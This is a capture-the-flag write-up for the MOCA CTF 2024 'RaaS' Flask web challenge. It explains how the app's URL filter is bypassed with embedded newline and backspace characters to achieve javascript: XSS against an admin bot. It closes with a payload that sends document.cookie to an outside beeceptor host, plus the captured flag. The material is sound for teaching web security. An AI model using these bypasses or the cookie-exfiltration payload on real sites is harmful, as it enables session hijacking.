 ```yaml
---
layout: post
title: RaaS [WEB] writeup - MOCA CTF 2024 Quals 
author: simonedimaria
category: writeups
chall-category: web
tags: web xss flask
---
```



# RaaS [WEB] - MOCA CTF 2024 Quals

![[./assets/MocaCTF_logo.png]]

# TL;DR

- The challenge involved achieving DOM XSS inside a Flask template through the `javascript:` pseudo protocol. This was accomplished bypassing a filtering regex and blacklisted characters.
# 0. Description

> A simple click-to-xss to warmup.

---
## 1. Challenge scenario

We're given a form in which it is possible to insert a link, a title, and be redirected to that URL. There is also the possibility of sending this link to the admin who will in turn be redirected.

![[./assets/RaaS_firstlook.png]]

Source code is provided, so we'll look into that to understand what's happening.

## 1.1) Source code analysis

The project is divided into two parts: the main application and the admin bot. We'll look into the application code first.

**app.py**
```python
from flask import Flask, request, render_template, Response, redirect,jsonify, make_response, g, redirect, send_file
import requests
import urllib.parse
import re

app = Flask(__name__)

@app.route('/', methods=['GET'])
def main_page():
    return render_template('home.html')

def check_url(url):
    url = url.lower()
    pattern = r'[()=$`]'
    if bool(re.search(pattern, url, re.IGNORECASE | re.DOTALL)):
        return False
    if url.startswith("j") or "javascript" in url:
        return False
    return True

def check_title(title):
    if "<" in title or ">" in title:
        return False
    return True

@app.route('/redirectTo', methods=['GET'])
def redirect_to():

    url = request.args.get("url")
    title = request.args.get("title")
    default_url = "https://www.youtube.com/watch?v=xvFZjo5PgG0&ab_channel=Duran"

    if not isinstance(title,str) or not isinstance(url,str):
        return render_template('redirect.html',url=default_url, title="title")
    url = url.strip()

    if not check_url(url) or not check_title(title):
        return render_template("redirect.html", title=title, url=default_url)
    return render_template('redirect.html',url=url, title=title)

@app.route('/redirectAdmin', methods=['GET'])
def redirect_admin():
    default_url = "https://www.youtube.com/watch?v=xvFZjo5PgG0&ab_channel=Duran"
    admin_bot = "http://raas-admin:3000/report_to_admin"
    url = request.args.get("url")
    title = request.args.get("title")
    
    if not isinstance(title,str) or not isinstance(url,str):
        requests.post(admin_bot, json={"url":default_url, "title":"title"})
        return jsonify({"message":"done"}), 201

    url = url.strip()
    if not check_url(url) or not check_title(title):
        requests.post(admin_bot, json={"url":default_url, "title":"title"})
        return jsonify({"message":"done"}), 201

    requests.post(admin_bot, json={"url":url, "title":title})
    return jsonify({"message":"done"}), 201


if __name__ == '__main__':
    app.run(host="0.0.0.0", port=5000)
```


Clicking on the "*Get Redirected!*" button will trigger the `/redirectTo` route, which is anyway triggered also by the "*Redirect the Admin!*" button that executes the `/redirectAdmin` route.
The first endpoint accepts the `url` and `title` parameters which must be strings and later passed to the `check_url()` and `check_title()` sanitizing functions. If we can bypass that with a working payload, we'll have XSS. 
The second endpoint forwards the given URL to the admin bot, which simply goes to the `/redirectTo` endpoint with our inputs, and simulates a button click on the "*Follow Link*" button.

![[./assets/Raas_redirectTo.png]]

The `check_url` function aims to sanitize the URL input by converting it to lowercase, hence avoiding all the lowercase-uppercase payloads like `jAvAsCriPt:aLeRt(1)`. It also check for the presence of some special characters with the regex ```r'[()=$`]'``` that will limit us later on exploitation.
Particularly, it ensures the URL does not start with "j" character or contain the substring "javascript". This comes out as the main limitation for us, since it should block the payloads with the javascript pseudo protocol.

At this point, a simple way out will be any other working pseudo protocol XSS payload like `data:text/html;base64,PHNjcmlwdD5hbGVydCgiSGVsbG8iKTs8L3NjcmlwdD4`. However, if we try so, the browser will insult us with:

![[./assets/Raas_browserblock.png]]
My approach at this point was to split the checks individually in the source code an try to bypass them one by one.

# 2. Exploitation

Below I will explain how I bypassed each of them, doing it with a bottom-up approach cause I found it more convenient.
## 2.1) "javascript" not allowed bypass

We're not allowed to use the string "javascript" anywhere in our URL, so...just don't use it!
We will write
```
java
script
```
instead.
Here we are using a **newline character** to bypass the check. Since in the Python side `"java\x0Ascript" != "javascript"`, but in the broswer `java%0Ascript` will still be considered a valid url for the `javascript` protocol.

>[!info] NOTE
> Our input get stripped before getting into che sanitizing function, however Python [strip()](https://docs.python.org/3.11/library/stdtypes.html#str.strip) function only removes **leading and trailing characters**.

Even though this is a common bypass, I never actually knew why this was working. Researching for bypasses for the javascript pseudo protocol I've found [this blog](https://aszx87410.github.io/beyond-xss/en/ch1/javascript-protocol/) which was helpful to me to find out the reason why whitespaces are allowed in this situation and find out the bypass for the next filter.
The reason seems to rely in the [URL spec standard](https://url.spec.whatwg.org/) which removes any ASCII tab or newline from inputs.

## 2.2) doesn't starts with "j" bypass

This one was tougher.
the strip function that was allowing me to bypass the previous check was sending me crazy on this one.
Majority of payloads broke the `javascript` protocol: even if they bypassed the checks, they would just get included as part of the web application URL (e.g `url=/java%0Ascript:payload`).
Another example is what I initially thought to be a NULL byte bypass, which caused instead a strange behaviour:
![[./assets/Raas_NULLbyteinurl.png]]
As you can see, it bypassed the python checks but in the button preview (left corner) it was mutated in some non printable character, invalidating it as protocol.
However, i felt in being in the right path, until the previous blog confirmed my sensations.

![[./assets/RaaS_controlcharsinURL.png]]
Control Characters are allowed?? It did, in fact.
Using the **BACKSPACE** (`%08`) character allowed me to bypass the python filter and still getting a valid url for the javascript protocol!
And any of the [ASCII Control Characters](https://en.wikipedia.org/wiki/Control_character) below would have probably get the job done.
![[./assets/Raas_ASCIIcontrolchars.png]]
## 2.3) regex bypass

This was probably the easiest check to bypass, since javascript is very permissive in expressions that can be created even with a few symbols, it is no coincidence that there are many esoteric languages ​​on javascript such as [JSFuck](https://jsfuck.com/) that manage to create valid expressions using only a few symbols.

>[!info] Fun Fact
> [here](http://aem1k.com/aurebesh.js/) I've found some of the funniest javascript esoteric shit expression while doing this challenge, like...how the fuck i can popup alert with fucking Egyptian hieroglyphs, but a simple NULL byte will break the shit out of the payload??

However, searching brainlessly "XSS payloads without parentheses" was enough since i found many working payloads inside [this repo](https://github.com/RenwaX23/XSS-Payloads/blob/master/Without-Parentheses.md).
I was also able to double encode inside the payload after the `javascript:` since javascript was decoding it.
## 2.4) PoC

```javascript
%08java%0Ascript%3Afetch%2528'http://eeeee.free.beeceptor.com/'%2Bdocument.cookie%2529
// javascript:fetch('http://eeeee.free.beeceptor.com/'+document.cookie)
```

![[./assets/RaaS_finalpayload.png]]
> `PWNX{WH0_D035'N7_l0V3_4_g00D_0l'_W4F?}`

---
### TAGS: #XSS #flask